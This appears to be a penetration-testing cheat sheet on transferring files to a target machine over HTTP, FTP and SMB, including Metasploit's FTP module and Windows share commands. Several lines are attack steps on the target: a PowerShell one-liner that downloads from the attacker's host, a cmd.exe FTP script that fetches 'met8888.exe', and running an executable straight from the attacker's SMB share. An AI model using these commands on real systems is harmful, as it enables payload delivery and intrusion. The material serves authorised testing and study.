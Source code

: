 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

> [http://your\_ip\_address:your\_port\_num/filename](http://your_ip_address:your_port_num/filename)

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name](http://your_ip_address:your_port_num/filename','C:\\Users\\dest_path\\file_name)'\)"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer start iexplore.exe \[[http://ip](http://ip) address/file\]

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib
>
> python -m pyftpdlib -p \[port\_num\]

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp
>
> set FTPROOT /root/shells
>
> exploit

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share (Drive MAP):

`NET USE [driveletter:] \\ComputerName\ShareName`

(replace [driveletter:] with the drive letter you want to assign).


### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

> [sharedname]

> path = [path to share]

> available  = yes

> valid users = [current user]

> read only = no

> browsable = yes

> public = yes

> writable = yes


`smbpasswd -a [current user]`

`pdbedit -L`

Restart SMB service
`service smb restart` or `sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows
